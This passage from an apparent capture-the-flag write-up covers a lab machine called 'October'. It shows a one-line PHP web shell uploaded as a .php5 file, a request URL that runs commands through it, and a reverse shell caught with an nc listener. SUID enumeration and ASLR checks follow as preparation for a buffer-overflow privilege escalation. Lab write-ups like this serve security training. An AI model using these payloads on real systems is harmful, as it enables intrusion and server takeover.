 ```bash
alternative extension, e.g if we upload sh.php5 on the server:

==================== source start ========================
<?php $_REQUEST['x']($_REQUEST['c']);
====================  source end  ========================

Code can be execute by making a following request:
http://victim.site/storage/app/media/sh.php5?x=system&c=pwd
```
Uploading pentestmonkey php reverse shell, accessing it at ``/storage/app/media/phprev.php5``
```bash
$ rlwrap nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.16 53438
Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 athlon i686 GNU/Linux
 12:19:49 up  1:58,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1304): Inappropriate ioctl for device
bash: no job control in this shell
www-data@october:/$
```
# Privesc
Checking for SUIDs gives `/usr/local/bin/ovrflw`
```bash
www-data@october:/home/harry$ find / -type f -perm -4000 2>/dev/null
/bin/umount
/bin/ping
/bin/fusermount
/bin/su
/bin/ping6
/bin/mount
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/mtr
/usr/bin/chsh
/usr/bin/at
/usr/sbin/pppd
/usr/sbin/uuidd
/usr/local/bin/ovrflw
```
## Protections
ASLR is running on the host:
```bash
www-data@october$ cat /proc/sys/kernel/randomize_va_space
2
```
You can confirm that by checking the libc address in every run using `ldd`.
```bash
www-data@october$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7622000)
www-data@october$ ldd /usr/local/bin/ovrflw | grep libc
```